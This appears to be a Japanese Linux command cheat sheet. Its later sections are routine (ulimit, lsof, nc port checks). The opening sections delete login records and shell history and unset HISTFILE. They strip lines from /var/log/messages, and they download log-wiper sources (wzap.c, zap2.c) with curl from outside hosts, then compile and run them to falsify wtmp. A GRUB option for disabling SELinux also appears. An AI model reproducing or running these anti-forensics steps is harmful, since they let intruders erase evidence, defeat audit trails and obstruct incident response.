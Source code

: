 ## 履歴削除

```
sudo rm /var/log/wtmp
sudo touch /var/log/wtmp
sudo rm /root/.bash_history
sudo rm /root/.viminfo
rm ~/.bash_history
rm ~/.viminfo
unset HISTFILE
```

### ログ

 ファイル名 | ログの用途                     | 主な格納先 | 格納タイプ
------------|--------------------------------|------------|------------
 utmp       | 現在のユーザー情報を記録       | /var/run   | バイナリ
 wtmp       | ログインの履歴を記録           | /var/log   | バイナリ
 lastlog    | ユーザーの最終ログイン時を記録 | /var/log   | バイナリ
 cron       | cronの実行結果を保存           | /var/log   | テキスト
 maillog    | メール関連                     | /var/log   | テキスト
 messages   | システムメッセージ、各種ソフト | /var/log   | テキスト
 secure     | セキュリティ関連               | /var/log   | テキスト
 xferlog    | ftp関連                        | /var/log   | テキスト

#### 改ざん

```
# テキスト系ファイルの改ざん
sed -e '/hogehoge/d' /var/log/messages > /tmp/messages

# zap2 で wtmp を改ざん
cd /tmp/
curl -LO http://www.kozupon.pgw.jp/download/wzap.c
gcc -o wzap wzap.c
./wzap
who ./wtmp.out
mv -f wtmp.out wtmp
chown root.utmp wtmp

# zap
curl -LO www.ussrback.com/UNIX/penetration/log-wipers/zap2.c
gcc -o zap zap2.c
./zap
```


## GRUB からselinux をOFFに

```
selinux=0 single
```
## システムリソースの上限を確認 (ulimit -a)

```
ulimit -a
# max memory size    = 物理メモリの使用サイズ上限
# open files         = ファイルディスクリプタ数の上限
# cpu time           = CPU時間の上限
# max user processes = プロセス数の上限
```

## ポートを使用しているプロセスを調査 (lsof)

```
sudo lsof -i:3306
```

## 疎通確認

```
## TCP 80
nc -z -w 5 -v www.example.com 80
## TCP 80-81
nc -z -w 5 -v www.example.com 80-81
## UDP 68
nc -u -z -w 5 -v www.example.com 68
```
